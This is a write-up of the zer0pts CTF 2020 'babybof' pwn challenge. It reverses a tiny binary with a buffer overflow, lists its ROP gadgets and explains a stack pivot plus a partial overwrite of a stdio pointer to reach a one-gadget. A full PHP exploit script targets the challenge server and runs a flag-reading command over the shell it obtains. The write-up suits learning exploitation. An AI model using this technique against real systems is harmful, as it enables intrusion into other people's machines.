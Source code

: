 # babybof - zer0pts CTF 2020 (pwn, 590p, 17 solved)
## Introduction

babybof is a pwn task.

An archive containing a binary, and a libc is provided.

## Reverse engineering

The binary is a `baby` task : it is minimalist.

It only sets up the stream buffers by calling `setbuf` on `stdin`, `stdout` and
`stderr`. It then read 0x200 bytes in a 32-bytes buffer and calls exit.

This yields ROP, but there are only 7 gadgets in total :
```
0x0040043e: call qword [rbp+0x48] ;  (1 found)
0x00400498: dec ecx ; ret  ;  (1 found)
0x00400499: leave  ; ret  ;  (1 found)
0x0040049b: pop r15 ; ret  ;  (1 found)
0x0040047c: pop rbp ; ret  ;  (1 found)
0x0040049c: pop rdi ; ret  ;  (1 found)
0x0040049e: pop rsi ; ret  ;  (1 found)
```

The binary imports function from the libc, but the global offset table is
read-only.

## Exploitation

While the global offset table is read-only, the pointers to `stdin`, `stdout`
and `stderr` are stored at the beginning of the BSS section, and are writeable.

The idea is to call read multiple times :
1. first to pivot a new stack in the BSS section (for example at BSS +
   0x50) and clear the stack for a one-gadget
2. then pivot again, this time before the stream buffers
3. finall, overwrite one of the stream buffers partially and use it as a return
   address

The 3 last bytes of a one-shot gadget (libc + 0xF1147) can be used. This result
in an exploit that works once every 4096 times on average.

**Flag**: `zer0pts{b0f_i5_4lw4y5_d4ng3r0u5}`

## Appendices

### pwn.php

```php
#!/usr/bin/php
<?php
require_once("Socket.php");

const POPR15 = 0x0040049b; // pop r15 ; ret  ;  (1 found)
const POPRBP = 0x0040047c; // pop rbp ; ret  ;  (1 found)
const POPRDI = 0x0040049c; // pop rdi ; ret  ;  (1 found)
const POPRSI = 0x0040049e; // pop rsi ; ret  ;  (1 found)

const CALL   = 0x0040043e; // call qword [rbp+0x48] ;  (1 found)
const DECECX = 0x00400498; // dec ecx ; ret  ;  (1 found)
const LEAVE  = 0x00400499;

const READ   = 0x0040048b;

const BSS = 0x601000;
const RET = 0x0040049f;

$what = 0x7ffff7a0d000 + 0x000f1147;

$t = new Socket("13.231.207.73", 9002);

/* Read in stack */
$payload = str_repeat("A", 0x28) . pack("Q*",
	POPRBP, BSS + 0x50 + 0x20,
	READ,
);
$payload = str_pad($payload, 0x200, "\x00");


/* Second read */
$payload .= str_repeat("\x00", 0x28);
$payload .= pack("Q*",
	POPRBP, BSS + 0x20,
	READ,
);
$payload = str_pad($payload, 0x400, "\x00");

/* Partial overwrite */
$payload .= str_repeat("\x00", 0x28);
$payload .= pack("Q", RET);
$payload .= substr(pack("Q", $what), 0, 3);

$t->write($payload);

usleep(5e5);

try {
	@$t->write("/bin/cat /home/pwn/*flag*\n");
	while($packet = @$t->readLine())
		printf("%s\n", $packet);
} catch(TypeError $e) {
	exit;
} catch(Exception $e) {
	exit;
}
```
